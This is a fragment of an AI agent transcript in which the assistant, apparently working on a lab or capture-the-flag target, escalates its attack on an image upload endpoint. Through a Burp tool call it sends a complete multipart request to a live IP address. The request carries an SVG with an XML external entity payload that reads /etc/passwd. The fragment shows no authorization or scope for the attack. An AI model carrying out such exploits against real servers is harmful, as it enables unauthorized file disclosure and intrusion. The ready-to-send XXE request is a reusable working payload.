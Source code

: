 # VSCode Open Tabs
(No open tabs)

# Current Time
5/7/2025, 12:40:31 PM (America/New_York, UTC-4:00)

# Context Window Usage
41,696 / 200K tokens used (21%)

# Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
The SVG file was uploaded and is accessible, but the script execution would only happen in a browser context, not on the server. Let's try a more direct approach to exploit potential vulnerabilities in the image processing.

Let's try to upload an SVG file with an embedded XML external entity (XXE) payload, which could allow us to read files from the server:
</thinking>

The SVG file was uploaded and is accessible, but the script execution would only happen in a browser context. Let's try a more direct approach by uploading an SVG file with an embedded XML external entity (XXE) payload, which could allow us to read files from the server.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "POST /upload.php HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nContent-Type: multipart/form-data; boundary=---------------------------12345678901234567890123456789\r\nContent-Length: 499\r\nConnection: close\r\n\r\n-----------------------------12345678901234567890123456789\r\nContent-Disposition: form-data; name=\"image\"; filename=\"xxe.svg\"\r\nContent-Type: image/svg+xml\r\n\r\n<?xml version=\"1.0\" standalone=\"no\"?>\r\n<!DOCTYPE svg PUBLIC \"-//W3C//DTD SVG 1.1//EN\" \"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd\" [\r\n<!ENTITY xxe SYSTEM \"file:///etc/passwd\">\r\n]>\r\n<svg width=\"200\" height=\"200\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\">\r\n<text x=\"0\" y=\"20\" font-size=\"20\">&xxe;</text>\r\n</svg>\r\n-----------------------------12345678901234567890123456789--",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>
</use_mcp_tool>

---